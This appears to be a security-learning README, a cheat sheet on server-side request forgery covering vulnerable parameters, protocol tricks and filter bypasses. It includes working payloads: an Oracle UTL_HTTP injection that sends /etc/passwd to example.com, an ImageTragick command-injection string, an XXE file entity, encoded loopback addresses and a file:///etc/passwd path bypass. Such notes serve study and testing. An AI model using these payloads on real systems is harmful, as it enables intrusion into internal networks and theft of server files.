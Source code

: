 # SSRF
Server Side Request Forge  
Bypass the firewall and grope through the intranet  

![ssrf](https://github.com/shinmao/Web-Security-Learning/blob/master/SSRF/screenshot/SSRF.png)  
1. Find the vulnerable place > 2. with Protocol > 3. Apply to deeper attack > 4. Bypass

# Find the vulnerable place
**Controllable** URL parameter：url, src, imgURL, share, wap, link  
share the content via URL  
translate the context with online translator  
load the pic with URL  
**How to efficiently dig the vulnerable place?**  
Set up a **requestbin** to find whether request from server?  
Set up a **DNS Logger** to find whether DNS resolution?  
1. XXE(You can directly see in my XXE part)  
```php
<!ENTITY % file SYSTEM "file://url/xxx">
```  
[ref to OOB XXE](https://github.com/shinmao/Web-Security-Learning/tree/master/XXE#exploit)  

2. `file_get_contents($url)`(PHP)  
```php
$image = file_get_contents('http://self-ip');
```
[Day 20 - Stocking](https://www.ripstech.com/php-security-calendar-2017/#day-20)  

3. curl(PHP)  
in fact, from `curl -V` we can see the libcurl support many protocols  

4. Oracle UTL_HTTP  
```php
?id=1'||CTXSYS.DRITHSX.SN(user,substr(utl_http.request('http://example.com?download=/etc/passwd'),1,160))||'
```  

5. ImageTragick  
```php
fill 'url(https://example.com/";|ls "-la)'
```  
[ImageTragick](https://imagetragick.com/)  
CVE-2016-3718  
POC on Facebook  
We can find the code `<delegate decode="https" command="&quot;curl&quot; -s -k -o &quot;&o&quot; &quot;https:%M&quot;"/>`. Therefore, we can do command injection.  

6. Header HTTP proxy  
According to CGI, headers in the request would be replaced with env variables  
e.g. Host -> $HTTP_HOST, Proxy -> $HTTP_Proxy  
so we can hijack the http connection  

# with different Protocol  
gopher is an awesome protocol to attack intranet service that **it can forge any kinds of TCP packets**.(but limited by encrypted handshake)  
[利用 Gopher 协议拓展攻击面-转载长亭科技](https://blog.chaitin.cn/gopher-attack-surfaces/)  

Jar is a protocol which can be used to create controllable temp file  

FTP or SMB can also be used on bruteforce of password  

# Bypass  
I would check your schema, host, port  
* Bypass DNS limit:  
A special domain provider> `xip.io`  
DNS rebinding: Traditionally, SSRF filter would get host's IP with DNS resolution from URL. If the IP is legal, request with curl could be successful. Therefore, we can conclude that there are two times of DNS resolutions. We can return legal IP to server at the first time, and return illegal IP for request at the second time! Problem: Sometimes, a server in the public net won't take DNS resolution every times, but store in the cache.  

* Bypass ip limit:  
ip can be decimal, hexidecimal, or Octal  
```php
127.0.0.1
127.0.1
127.1
0.0.0.0
0.0
0
0x7f000001
2130706433
017700000001
```  
This tricks can be used to bypass wordpress protection on SSRF in CVE-2016-4029  

* Bypass url limit:  
```php
// @Adrien
file:///etc/passwd   // Not authorized
file://\/\/etc/passwd    // Work
```  

## Reference
* [New-Era-Of-SSRF-Exploiting-URL](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)  
* [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing)
